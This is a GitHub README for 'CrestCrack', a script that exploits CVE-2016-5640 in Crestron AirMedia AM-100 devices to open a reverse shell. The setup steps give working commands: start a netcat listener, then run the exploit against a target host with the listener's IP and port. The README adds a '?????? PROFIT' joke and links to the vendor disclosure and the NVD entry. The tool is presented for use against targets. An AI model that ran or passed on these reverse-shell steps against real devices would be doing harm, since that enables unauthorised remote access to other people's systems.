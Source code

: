![Supported Python versions](https://img.shields.io/badge/python-2.7-blue.svg)
# CrestCrack
CrestCrack is a simple script that exploits CVE-2016-5640 / CLVA-2016-05-002 within the Crestron AirMedia AM-100 (v1.1.1.11 - v1.2.1). When supplied with arguments CrestCrack will utilize netcat to create a reverse shell between your target and a netcat listener of your choice. 

## Setup:
1. Clone a copy of CrestCrack `git clone https://github.com/vpnguy/CrestCrack`
2. Launch a netcat listener `nc -lvp 1337`
3. Execute CrestCrack against your target with your listener info `./crestcrack.py https://targethost 255.255.255.255 1337`
4. ??????
5. **PROFIT**

###Usage:
**./crescrack.py *[target host] [listener IP] [listener port]***

###Example: 
**./crescrack.py https://targethost 123.123.123.123 3311**

 

## Additional Vulnerability Information:
[Cylance Vulnerability Disclosure](https://github.com/CylanceVulnResearch/disclosures/blob/master/CLVA-2016-05-002.md)

[NIST CVE-2016-5640](https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2016-5640)

## To be added:
- Error handling/bounds checking
- Enhanced argument support
- --help output


